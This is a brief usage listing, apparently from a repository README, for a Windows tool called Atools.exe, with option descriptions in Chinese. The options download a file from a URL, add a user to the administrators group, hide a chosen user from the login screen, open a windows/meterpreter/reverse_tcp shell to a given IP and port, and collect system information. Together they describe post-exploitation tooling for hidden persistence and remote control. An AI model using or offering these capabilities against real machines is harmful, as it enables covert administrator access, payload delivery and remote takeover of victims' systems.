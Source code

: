 Atools.exe -h | help
Atools.exe -d url |下载
Atools.exe -u user pass |添加一个用户并加入到管理员组
Atools.exe -s user | 禁止交互式登陆时在登陆界面隐藏指定用户
Atools.exe -r ip port |windows/meterpreter/reverse_tcp
Atools.exe -i | 系统信息收集
